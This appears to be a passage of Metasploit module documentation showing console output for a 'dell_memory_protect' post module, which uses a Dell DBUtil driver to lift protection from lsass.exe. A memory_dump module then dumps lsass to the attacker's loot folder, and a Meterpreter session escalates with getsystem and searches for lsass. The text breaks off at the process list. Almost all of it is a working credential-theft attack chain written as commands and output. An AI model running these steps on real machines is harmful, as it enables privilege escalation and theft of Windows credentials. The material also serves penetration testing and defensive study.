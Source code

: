 ```

msf post(windows/manage/dell_memory_protect) > set SESSION 1
SESSION => 1
msf post(windows/manage/dell_memory_protect) > set DRIVER_PATH C:\\Windows\\Temp
DRIVER_PATH => C:\Windows\Temp
msf post(windows/manage/dell_memory_protect) > set PID 740
PID => 740
msf post(windows/manage/dell_memory_protect) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_sys_process_set_term_size
[*] Launching netsh to host the DLL...
[+] Process 692 launched.
[*] Reflectively injecting the DLL into 692...
[+] Exploit finished
[*] Post module execution completed
msf post(windows/manage/dell_memory_protect) > use post/windows/gather/memory_dump 
msf post(windows/gather/memory_dump) > options

Module options (post/windows/gather/memory_dump):

   Name       Current Setting             Required  Description
   ----       ---------------             --------  -----------
   DUMP_PATH  C:\Windows\Temp\lsass_dump  yes       File to write memory dump to
   DUMP_TYPE  standard                    yes       Minidump size (Accepted: standard, full)
   PID        740                         yes       ID of the process to dump memory from
   SESSION    1                           yes       The session to run this module on

msf post(windows/gather/memory_dump) > run

[*] Running module against BADBLOOD
[*] Dumping memory for lsass.exe
[*] Downloading minidump (4.11 MiB)
[+] Memory dump stored at /home/albinolobster/.msf4/loot/20211207125102_default_172.16.144.11_windows.process._368616.bin
[*] Deleting minidump from disk
[*] Post module execution completed
msf post(windows/gather/memory_dump) > 
```

### Windows 10 Build 19044.1348 x64 using DBUtilDrv2 version 2.5

```
[*] Started reverse TCP handler on 10.0.0.9:1270 
[*] Meterpreter session 1 opened (10.0.0.9:1270 -> 10.0.0.8:39523 ) at 2021-12-08 07:18:27 -0800

meterpreter > sysinfo
Computer        : DESKTOP-JCD6JN8
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-JCD6JN8\albinolobster
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > ps | grep lsass
Filtering on 'lsass'

Process List
```